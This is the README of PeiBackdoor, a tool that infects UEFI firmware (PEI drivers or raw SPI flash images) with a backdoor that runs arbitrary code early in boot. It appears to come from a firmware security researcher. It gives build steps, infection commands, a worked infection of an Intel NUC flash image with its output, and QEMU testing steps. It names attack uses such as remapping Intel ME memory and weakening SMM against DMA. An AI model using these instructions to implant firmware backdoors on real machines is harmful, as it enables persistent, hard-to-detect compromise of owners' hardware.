 # PEI stage backdoor for UEFI compatible firmware

This project implements early stage firmware backdoor for UEFI based firmware. It allows to execute arbitrary code written in C during Pre EFI Init (PEI) phase of Platform Initialization (PI). This backdoor might be useful for low level manipulations with the target platform configuration when the most of the platform configuration registers are not locked yet.

Possible applied use cases:

* Edit values of `REMAPBASE`, `REMAPLIMIT` and other host controller registers during RAM initialization to perform UMA remap attack on Intel Management Engine RAM.
* Lock `TSEGMB` host controller register with the junk value to make System Management Mode code vulnerable to DMA attacks.
* Do other evil things that requires hijacking of early stage platform initialization code.

## Contents <a id="_0"></a>

PEI backdoor project includes:

* [PeiBackdoor.py](https://github.com/Cr4sh/PeiBackdoor/blob/master/src/PeiBackdoor.py) - Python program that allows to infect raw flash images or individual UEFI PEI drivers with the backdoor code.

* [PeiBackdoor_IA32.efi](https://github.com/Cr4sh/PeiBackdoor/blob/master/PeiBackdoor_IA32.efi), [PeiBackdoor_IA32.pdb](https://github.com/Cr4sh/PeiBackdoor/blob/master/PeiBackdoor_IA32.pdb) - 32-bit PEI backdoor binary compiled with `ACTIVE_PLATFORM = IA32`.

* [PeiBackdoor_X64.efi](https://github.com/Cr4sh/PeiBackdoor/blob/master/PeiBackdoor_X64.efi), [PeiBackdoor_X64.pdb](https://github.com/Cr4sh/PeiBackdoor/blob/master/PeiBackdoor_X64.pdb) - 64-bit PEI backdoor binary compiled with `ACTIVE_PLATFORM = X64`.

* [PeiBackdoor.inf](https://github.com/Cr4sh/PeiBackdoor/blob/master/PeiBackdoor.inf) - PEI backdoor project configuration for EDK2 build environment.

* [config.h](https://github.com/Cr4sh/PeiBackdoor/blob/master/config.h) - PEI backdoor build options.

* [payload.c](https://github.com/Cr4sh/PeiBackdoor/blob/master/payload.c) - Put your own PEI stage code into this source file and call it from `Payload()` function.

* [src/](https://github.com/Cr4sh/PeiBackdoor/blob/master/src) - Rest of the PEI backdoor code.

## Building from the source code <a id="_1"></a>

To build PeiBackdoor project you need to have a Windows machine with Visual Studio 2008 and [EDK2 source code](https://github.com/tianocore/edk2).

Step by step instruction:

1. Run Visual Studio 2008 Command Prompt and cd to EDK2 directory.

2. Execute `git clone git://github.com/Cr4sh/PeiBackdoor.git` command.

3. Edit [Conf/target.txt](https://github.com/tianocore/edk2/blob/master/Conf/target.txt) file and set `ACTIVE_PLATFORM` property value to the  `OvmfPkg/OvmfPkgX64.dsc` for 64-bit build or to the `OvmfPkg/OvmfPkgIa32.dsc` for 32-bit build. Also you need to set `TARGET_ARCH` property value to the `X64` for 64-bit build or to the `IA32` for 32-bit build.

4. Edit [OvmfPkg/OvmfPkgX64.dsc](https://github.com/tianocore/edk2/blob/master/OvmfPkg/OvmfPkgX64.dsc) and add `PeiBackdoor/PeiBackdoor.inf` path at the end of the `[components]` section.

5. Execute `Edk2Setup.bat --pull` command to configure build environment and download required binaries.

6. `cd PeiBackdoor && build`

7. After compilation resulting PE image file will be created at `Build/OvmfX64/DEBUG_VS2008x86/X64/PeiBackdoor/PeiBackdoor/OUTPUT/PeiBackdoor.efi` for 64-bit build or at `Build/OvmfX64/DEBUG_VS2008x86/IA32/PeiBackdoor/PeiBackdoor/OUTPUT/PeiBackdoor.efi` for 32-bit build.

## Command line options <a id="_2"></a>

`PeiBackdoor.py` program is used to deploy PEI backdoor, it has the following command line options:

* `-d <path>`, `--driver-image <path>` - Infect existing PEI driver image, both PE and TE formats are supported.

* `-f <path>`, `--flash-image <path>` - Infect existing UEFI flash image. Please note, this option works only for raw flash images (for example, dumped with hardware programer) but _not_ for UEFI capsules with firmware updates.

* `-p <path>`, `--payload <path>` - Path of the PEI backdoor binary for `-d` and `-f` options.

* `-o <path>`, `--output <path>` - Path of the output PEI binary or flash image for `-d` and `-f` options.

If `-d` option was specified - program is appending PEI backdoor binary code to the last section of PEI driver image and hooks it's entry point to execute `BackdoorEntryInfected()` function located in [src/PeiBackdoor.c](https://github.com/Cr4sh/PeiBackdoor/blob/master/src/PeiBackdoor.c) file.

If `-f` option was specified - program is trying to find `SiInitPreMem` PEI driver from AMI by signature in the target flash image and hook it's entry point to execute `BackdoorEntryInfected()` function. This OEM specific driver runs on relatively early stage of platform initialization which allows us to execute arbitrary code from SPI flash even before RAM initialization when the most of the physical memory space configuration registers like `TOUUD`, `TOLUD`, `REMAPLIMIT` and `REMAPBASE` are not configured and not locked yet. To infect other PEI driver entry point you also can edit `SIGNATURE` constant in `PeiBackdoor.py` to specify it's signature.

Instead of `SiInitPreMem` PEI driver entry point patch you also can use `--patch-offs <offset>` command line option to hook arbitrary function of some PEI driver that stored inside firmware image in uncompressed form (for example, AMI based firmware of my Intel NUC is not using any compression for all of it's PEI drivers).

## Running real hardware <a id="_3"></a>

To run `PeiBackdoor.efi` on your physical machine:

1. Dump motherboard firmware using hardware SPI programmer.

2. Open dumped flash image in [UEFITool](https://github.com/LongSoft/UEFITool) and extract PE/TE image of existing PEI driver that you want to infect with PEI backdoor.

3. Infect extracted PE or TE image with `SmmBackdoor_IA32.efi` or `SmmBackdoor_X64.efi` depending to it's architecture: `python PeiBackdoor.py -d image.efi -o image_patched.bin -p PeiBackdoor_IA32.efi`

4. Use UEFITool to replace original PE image with `image_patched.bin`, save modified flash image into the file and write it to the motherboard ROM with programmer.

Unfortunately, on some machines (for example my Intel NUC) patched flash image is not working after it's modification with UEFITool, so, I implemented `-f` option for `PeiBackdoor.py` that allows to infect raw firmware image without it's rebuild. Here's example of it's usage to infect [SYSKLi35.86A](https://downloadcenter.intel.com/download/26195/BIOS-Update-SYSKLi35-86A-?product=89190) firmware of Skylake based Intel NUC:

```
$ python PeiBackdoor.py -f flash.bin -p PeiBackdoor.efi -o flash_patched.bin
[+] Target image: flash.bin
[+] Payload: PeiBackdoor.efi
[+] Output file: flash_patched.bin
Target PEI driver is located at offset 0x7246ec
PEI driver image base is 0xfff2454c
PEI driver image stripped size is 0x1c8
PEI driver patch location is at 0x72d47c (6 bytes)
Loader is at offset 0x7de000
Payload is at offset 0x7de040 (entry point RVA is 0x31f)
Target PEI driver was successfully patched
Relocating payload to 0xfffde040
Flash was successfully infected
```

## Running on QUEMU <a id="_4"></a>

To run PEI backdoor on QEMU virtual machine with OVMF firmware you have to perform the following steps:

1. Edit `config.h` and uncomment `BACKDOOR_DEBUG_OVMF` to see PEI backdoor debug messages generated with `DbgMsg()` function of `src/debug.c` in OVMF debug output.

2. Execute `build` command from the root directory of EDK2 source code tree to build the whole OVMF firmware for `TARGET_ARCH = X64`, resulting firmware image file will be located at `Build/OvmfX64/DEBUG_VS2008x86/FV/OVMF.fd`

3. Infect [PlatformPei](https://github.com/tianocore/edk2/blob/master/OvmfPkg/PlatformPei) driver of EDK2 with the PEI backdoor: `python PeiBackdoor/PeiBackdoor.py -d Build/OvmfX64/DEBUG_VS2008x86/X64/OvmfPkg/PlatformPei/PlatformPei/OUTPUT/PlatformPei.efi -p PeiBackdoor_X64.efi`

4. Rebuild OVMF firmware image: `GenFds -f OvmfPkg\OvmfPkgX64.fdf -o Build\OvmfX64\DEBUG_VS2008x86 -t VS2008x86 -b DEBUG -p OvmfPkg\OvmfPkgX64.dsc -a X64 -D "EFI_SOURCE=EdkCompatibilityPkg" -D "EDK_SOURCE=EdkCompatibilityPkg" -D "TOOL_CHAIN_TAG=VS2008x86" -D "TOOLCHAIN=VS2008x86" -D "TARGET=DEBUG" -D "WORKSPACE=." -D "EDK_TOOLS_PATH=BaseTools" -D "ARCH=X64" -D "ECP_SOURCE=EdkCompatibilityPkg"`

5. Run QEMU virtual machine: `qemu-system-x86_64 -bios Build/OvmfX64/DEBUG_VS2008x86/FV/OVMF.fd -debugcon file:ovmf_debug.log -global isa-debugcon.iobase=0x402 -hda disk.qcow2 -net nic -m 1024 -gdb tcp:127.0.0.1:1234`

6. Monitor PEI backdoor debug messages in new terminal window: `tail -f ovmf_debug.log | grep PeiBackdoor`

Example of PEI backdoor debug output:

```
PeiBackdoor.c(262) : ******************************
PeiBackdoor.c(263) :   PEI backdoor loaded
PeiBackdoor.c(264) : ******************************
PeiBackdoor.c(267) : Payload image address is 0x8395e0
PeiBackdoor.c(271) : EFI_PEI_SERVICES is at 0x8177f8
PeiBackdoor.c(109) : Host bridge VID:DID is 8086:1237
PeiBackdoor.c(120) : MemoryDiscoveredCallback() called!
PeiBackdoor.c(68) : HOB: type = 0x1
PeiBackdoor.c(68) : HOB: type = 0x7
PeiBackdoor.c(68) : HOB: type = 0x7
PeiBackdoor.c(68) : HOB: type = 0x7
PeiBackdoor.c(68) : HOB: type = 0x7
PeiBackdoor.c(68) : HOB: type = 0x7
PeiBackdoor.c(68) : HOB: type = 0x7
PeiBackdoor.c(68) : HOB: type = 0x7
PeiBackdoor.c(68) : HOB: type = 0x7
PeiBackdoor.c(68) : HOB: type = 0x4
PeiBackdoor.c(68) : HOB: type = 0x4
PeiBackdoor.c(68) : HOB: type = 0x4
PeiBackdoor.c(68) : HOB: type = 0x3
PeiBackdoor.c(74) :  EFI_RESOURCE_SYSTEM_MEMORY: addr = 0x100000, size = 0x1ff00000
PeiBackdoor.c(68) : HOB: type = 0x3
PeiBackdoor.c(74) :  EFI_RESOURCE_SYSTEM_MEMORY: addr = 0x0, size = 0xa0000
PeiBackdoor.c(68) : HOB: type = 0x2
PeiBackdoor.c(68) : HOB: type = 0x2
PeiBackdoor.c(68) : HOB: type = 0x2
PeiBackdoor.c(68) : HOB: type = 0x2
```

Written by:
Dmytro Oleksiuk (aka Cr4sh)

cr4sh0@gmail.com
http://blog.cr4.sh
